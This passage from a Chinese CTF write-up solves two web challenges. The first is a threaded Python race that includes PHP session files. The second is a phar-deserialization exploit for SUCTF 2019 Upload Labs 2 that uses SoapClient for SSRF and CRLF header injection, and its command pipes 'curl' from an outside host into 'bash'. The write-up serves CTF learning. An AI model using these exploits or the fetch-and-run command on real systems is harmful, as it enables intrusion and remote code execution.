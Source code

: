     def read(session):
        while True:
            resp = session.post('http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/?file=/tmp/sess_'+sessid,data=data)
            if 'peri0d.txt' in resp.text:
                print(resp.text)
                
                event.clear()
            else:
                print('++++++++++++++++')
    if __name__=="__main__":
        event=threading.Event()
        with requests.session() as session:
        for i in xrange(1,30): 
                threading.Thread(target=write,args=(session,)).start()
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
        event.set()
    
神仙 膜了 https://blog.csdn.net/weixin_48537150/article/details/113189052

## [SUCTF 2019]Upload Labs 2 
关键词：phar反序列化
给了admin.php源码，rce需要本地IP，由于是remoteaddr，无法直接伪造，所以得寻找ssrf的点。
class.php里wakeup函数里有个ReflectionClass类，报告了一个类的有关信息。接下来会调用newInstanceArgs函数，查阅官方文档可知此函数从给出的参数创建一个新的类实例。也就是可以实例化任何类。
思路：上传一个phar文件，在func.php读取该文件，getMIME()触发phar反序列化，从而调用SoapClient类，成功伪造IP。
exp：

    <?php
    $phar = new Phar('troy3e.phar');
    $phar->startBuffering();
    $phar->addFromString('text.txt','text');
    $phar->setStub('<script language="php">__HALT_COMPILER();</script>'); //bypass class.php waf

    class File {
        public $file_name = "";
        public $func = "SoapClient";
    
        function __construct(){
            $target = "http://127.0.0.1/admin.php";
            $post_string = 'admin=&cmd=curl http://henuctf.com:5555/tmp/|bash&clazz=SplStack&func1=push&func2=push&func3=push&arg1=123456&arg2=123456&arg3='. "\r\n";
            $headers = [];
            $this->file_name  = [
            null,
                array('location' => $target,
                      'user_agent'=> str_replace('^^', "\r\n", 'xxxxx^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string),
                      'uri'=>'hello')
            ];
        }
    }
    $object = new File;
    echo urlencode(serialize($object));
    $phar->setMetadata($object);
    $phar->stopBuffering();
